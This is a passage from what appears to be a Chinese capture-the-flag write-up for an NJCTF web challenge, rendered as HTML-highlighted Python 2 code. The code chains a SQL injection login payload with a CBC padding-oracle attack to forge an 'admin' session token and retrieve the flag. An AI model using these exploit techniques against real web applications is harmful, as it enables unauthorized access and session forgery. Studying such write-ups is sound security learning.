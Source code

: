 session=inject1(<span class="hljs-string">"action"</span>).headers[<span class="hljs-string">'set-cookie'</span>].split(<span class="hljs-string">','</span>)
phpsession=session[<span class="hljs-number">0</span>].split(<span class="hljs-string">";"</span>)[<span class="hljs-number">0</span>][<span class="hljs-number">10</span>:]
<span class="hljs-keyword">print</span> phpsession
ID=session[<span class="hljs-number">1</span>][<span class="hljs-number">4</span>:].replace(<span class="hljs-string">"%3D"</span>,<span class="hljs-string">'='</span>).replace(<span class="hljs-string">"%2F"</span>,<span class="hljs-string">'/'</span>).replace(<span class="hljs-string">"%2B"</span>,<span class="hljs-string">'+'</span>).decode(<span class="hljs-string">'base64'</span>)
token=session[<span class="hljs-number">2</span>][<span class="hljs-number">6</span>:].replace(<span class="hljs-string">"%3D"</span>,<span class="hljs-string">'='</span>).replace(<span class="hljs-string">"%2F"</span>,<span class="hljs-string">'/'</span>).replace(<span class="hljs-string">"%2B"</span>,<span class="hljs-string">'+'</span>).decode(<span class="hljs-string">'base64'</span>)

middle=<span class="hljs-string">""</span>
middle=padding_oracle(N,ID)
<span class="hljs-keyword">print</span> <span class="hljs-string">"ID:"</span>+ID.encode(<span class="hljs-string">'base64'</span>)
<span class="hljs-keyword">print</span> <span class="hljs-string">"token:"</span>+token.encode(<span class="hljs-string">'base64'</span>)
<span class="hljs-keyword">print</span> <span class="hljs-string">"middle:"</span>+middle.encode(<span class="hljs-string">'base64'</span>)
<span class="hljs-keyword">print</span> <span class="hljs-string">"\n"</span>
<span class="hljs-keyword">if</span>(len(middle)==<span class="hljs-number">16</span>):
    plaintext=xor(middle,token);
    <span class="hljs-keyword">print</span> plaintext.encode(<span class="hljs-string">'base64'</span>)
    des=pad(<span class="hljs-string">'admin'</span>,N)
    tmp=<span class="hljs-string">""</span>
    <span class="hljs-keyword">print</span> des.encode(<span class="hljs-string">"base64"</span>)
    <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> xrange(<span class="hljs-number">16</span>):
        tmp+=chr(ord(token[i])^ord(plaintext[i])^ord(des[i]))
    <span class="hljs-keyword">print</span> tmp.encode(<span class="hljs-string">'base64'</span>)

    result=inject_token(base64.b64encode(tmp))
    <span class="hljs-keyword">print</span> result.content
    <span class="hljs-keyword">if</span> <span class="hljs-string">"flag"</span> <span class="hljs-keyword">in</span> result.content <span class="hljs-keyword">or</span> <span class="hljs-string">"NJCTF"</span> <span class="hljs-keyword">in</span> result.content <span class="hljs-keyword">or</span> <span class="hljs-string">'njctf'</span> <span class="hljs-keyword">in</span> result.content:
        input(<span class="hljs-string">"success"</span>)</code></pre>
<h2 id="0x3-单个检验二值的代码">0x3 单个检验二值的代码</h2>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">import</span> requests
<span class="hljs-keyword">import</span> base64
<span class="hljs-keyword">import</span> time
url=<span class="hljs-string">'http://127.0.0.1/2.php'</span><span class="hljs-comment">#'http://218.2.197.235:23737/'</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">inject1</span><span class="hljs-params">(password)</span>:</span>
    param={<span class="hljs-string">'username'</span>:<span class="hljs-string">"' union select 'action','{password}"</span>.format(password=password),<span class="hljs-string">'password'</span>:<span class="hljs-string">''</span>}
    result=requests.post(url,data=param)
    <span class="hljs-comment">#print result.content</span>
    <span class="hljs-keyword">return</span> result
ID = <span class="hljs-string">'CCaTjI5AQCB8CX7kHzc8yw=='</span>.decode(<span class="hljs-string">'base64'</span>)
